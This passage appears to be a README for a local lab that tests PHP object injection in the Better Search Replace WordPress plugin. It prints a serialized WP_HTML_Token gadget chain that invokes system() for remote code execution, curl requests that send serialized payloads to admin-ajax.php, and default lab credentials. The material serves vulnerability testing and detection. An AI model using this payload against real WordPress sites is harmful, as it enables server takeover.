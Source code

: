### 2. **WP_HTML_Token RCE Chain**
Utilizing WordPress 6.4.0+ `WP_HTML_Token` class for actual RCE:
```php
O:13:"WP_HTML_Token":4:{
    s:13:"bookmark_name";s:14:"touch /tmp/rce";
    s:9:"node_name";s:8:"testnode";
    s:21:"has_self_closing_flag";b:0;
    s:10:"on_destroy";s:6:"system";
}
```

### 3. **Multiple Attack Vectors**
- AJAX endpoint exploitation (`admin-ajax.php`)
- Direct plugin interface manipulation
- Database injection via search/replace operations

## 🔬 Testing Approach

### Manual Testing
```bash
# Test basic plugin presence
curl "http://localhost:8080/wp-content/plugins/better-search-replace/readme.txt"

# Test vulnerability with safe payload
curl -X POST "http://localhost:8080/wp-admin/admin-ajax.php" \
  -d "action=bsr_search_replace&search_for=O:8:\"stdClass\":1:{s:4:\"test\";s:8:\"nuclei\";}&replace_with=safe&select_tables[]=wp_posts&dry_run=1"
```

### Nuclei Template Features
- **Multi-vector testing**: 5 different HTTP requests
- **Success-based matchers**: Looks for functional processing, not errors
- **Comprehensive extraction**: Version detection, response analysis
- **Safe payloads**: Non-destructive testing approach

### Manual Testing Features
- Plugin version detection and validation
- Multiple payload generation and testing
- WP_HTML_Token RCE demonstration
- Comprehensive vulnerability verification

## 📊 Lab Access Points

| Service | URL | Credentials |
|---------|-----|-------------|
| WordPress | http://localhost:8080 | admin/admin |
| phpMyAdmin | http://localhost:8081 | root/rootpassword |
